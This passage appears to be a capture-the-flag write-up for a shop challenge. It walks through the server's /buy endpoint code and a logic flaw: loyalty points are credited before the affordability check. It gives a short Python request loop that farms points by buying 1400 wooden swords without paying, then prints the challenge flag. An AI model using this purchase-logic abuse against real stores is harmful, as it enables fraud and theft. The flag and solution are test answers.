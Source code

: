 ```py
            raise HTTPException(status_code=404)
        cart.append(weapon)
```
4. After validating the list of items, it loops through them again, for each item, it checks that the customer has enough gold to buy only that item, then adds the amount of loyalty points of that item to us.
```py
    total_price = 0
    point_history = []
    for item in cart:
        if item.price > SHOP["customers"][customer_idx].gold:
            raise HTTPException(status_code=403)
        total_price += item.price
        if item.loyalty_points > 0:
            point_history += [item.loyalty_points]
```
5. It checks that we have enough gold to buy all the items that we supplied to the endpoint, if not, it throws a 403 error, if we do have enough, it simply subtracts the total price from our gold.
```py

    try:
        if len(point_history) > 0:
            SHOP["customers"][
                customer_idx
            ].loyalty.point_history += point_history
        if SHOP["customers"][customer_idx].gold < total_price:
            raise HTTPException(status_code=403)
        SHOP["customers"][customer_idx].gold -= total_price
    except:
        raise HTTPException(status_code=403)
```
6. Lastly, if we are buying the flagsword, it gives us the flag, else it just returns the items we have purchased.
```py
    if "flagsword" in [weapon.name for weapon in cart]:
        return {"purchased": FLAG}

    return {"purchased": cart}
```

There are 2 important things of note here. Firstly, the code adds the loyalty point to us before checking that we have enough money to buy all the items supplied. Secondly, it only deducts the total cost of the items if we can actually afford it, meaning if there was an item that gave us loyalty points and only cost at most 5 gold, and we bought a few copies of that item, we will still get loyalty points but have no gold deducted, as the total cost will exceed 5 gold. Luckily for us, the wooden sword fulfils that criteria, costing only 5 gold and giving us 1 loyalty point.

Thus all we have to do is buy more than 1337 wooden swords and we will have enough loyalty points to buy the flag, as we will still have 5 gold, we can simply buy the flag sword afterwards. At first I tried buying 1400 wooden swords at one go but got some error, presumably because the resulting url was too long, so I separated it into 14 requests.
```py
url = <IP> + /buy?customer_id=<customer_id>
payload = url + "&items=woodensword"*100
for i in range(14):
  requests.get(payload)
x = requests.get(url + "&items=flagsword")
print(x.text)
```
Running this gives us the flag `STF22{y0u_b0ught_4_v3ry_3xcLu51v3_sw0rd_w3LL_d0n3_31337}`

I was very surprised that it actually worked and thought I would get some other error, this challenge was quite fun and required a bit of careful reading.
